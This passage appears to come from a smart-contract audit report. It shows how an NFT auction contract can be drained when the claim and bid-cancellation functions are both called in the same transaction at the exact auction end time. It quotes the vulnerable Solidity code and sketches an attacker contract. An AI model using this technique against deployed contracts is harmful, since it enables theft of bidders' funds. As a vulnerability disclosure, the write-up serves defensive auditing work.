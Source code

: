 ```solidity
            (bool success, ) = payable(owner()).call{value: highestBid}("");
            emit ClaimAuction(owner(), _tokenid, success, highestBid);
        } else if (auctionInfoData[_tokenid][i].status == true) {
            //here we refund all the bidders
            (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
            emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
        } else {}
    }
}
```
Where he'd receive the auctioned NFT + the 50ETH bids because we refund all the bidders here.

And in the same transaction he'd call `cancelAllBids`:
```solidity
function cancelAllBids(uint256 _tokenid) public {
    //we pass this as block.timestamp == minter.getAuctionEndTime(_tokenid)
    require(block.timestamp <= minter.getAuctionEndTime(_tokenid), "Auction ended");

    for (uint256 i=0; i<auctionInfoData[_tokenid].length; i++) {
       //this just checks if msg.sender is the bidder and the bid is not refunded
        if (auctionInfoData[_tokenid][i].bidder == msg.sender && auctionInfoData[_tokenid][i].status == true) {
            //this sets the bid as refunded
            auctionInfoData[_tokenid][i].status = false;
            //here we refund the bidder
            (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
            emit CancelBid(msg.sender, _tokenid, i, success, auctionInfoData[_tokenid][i].bid);
        } else {}
    }
}
```
And he'll get his 50ETH worth of bids again + the winning bid refunded.

The total profit for the attacker is the NFT + 50ETH worth of bids.

Now, for the attack to work we need `block.timestamp == getAuctionEndTime(tokenId)` so the attacker will set up a contract with the following functions:
```solidity
//function to bid
function bid() {
auctionDemo.participateToAuction();
}
//function to claim and cancel at the same time
function claimAndCancelAll() {
auctionDemo.claimAuction();
auctionDemo.cancelAllBids();
}
//function to just claim his auction, in case the attack doesn't work
function claim() {
auctionDemo.claimAuction();
}
```
